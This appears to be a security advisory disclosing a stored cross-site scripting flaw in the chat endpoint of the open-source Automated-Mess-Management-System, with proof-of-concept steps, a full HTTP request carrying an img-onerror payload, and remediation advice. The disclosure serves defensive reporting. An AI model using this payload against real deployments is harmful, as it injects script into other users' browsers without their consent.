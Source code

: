 # boyiddha / Automated-Mess-Management-System - /member/chat.php Stored XSS

## Vendor Homepage:
[Automated-Mess-Management-System](https://github.com/boyiddha/Automated-Mess-Management-System)

## Impact
The `/member/chat.php` endpoint in the Automated-Mess-Management-System is vulnerable to Stored Cross-Site Scripting (XSS) attacks, which could allow attackers to inject malicious scripts into the application. This vulnerability can have a significant impact, enabling attackers to execute arbitrary JavaScript code in the context of other users' browsers who access the chat feature.


## Proof of Concept
Step 1: Login as a member.\
Step 2: Go to chat book\
Step 3: send the following payload "><img src=x onerror=alert(1)>"\
Step 4: Injected xss will render on reload


## HTTP Request Example
``` http request
POST /member/chat.php HTTP/1.1
Host: [REDACTED]
Content-Length: 260
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYTGco3iyTv9NB0KO
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

------WebKitFormBoundaryYTGco3iyTv9NB0KO
Content-Disposition: form-data; name="msg"

><img src=x onerror=alert(1)>
------WebKitFormBoundaryYTGco3iyTv9NB0KO
Content-Disposition: form-data; name="submit"

send
------WebKitFormBoundaryYTGco3iyTv9NB0KO--

```
## Proof with Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/89e08ae6-7bb0-48ef-92e3-0afc0401a080)


## Remidiation
To mitigate this issue, developers should implement proper input validation and output encoding to prevent the execution of malicious scripts. Additionally, the application should sanitize user inputs to neutralize any potentially harmful content before rendering it in the browser.

## CWE
[CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
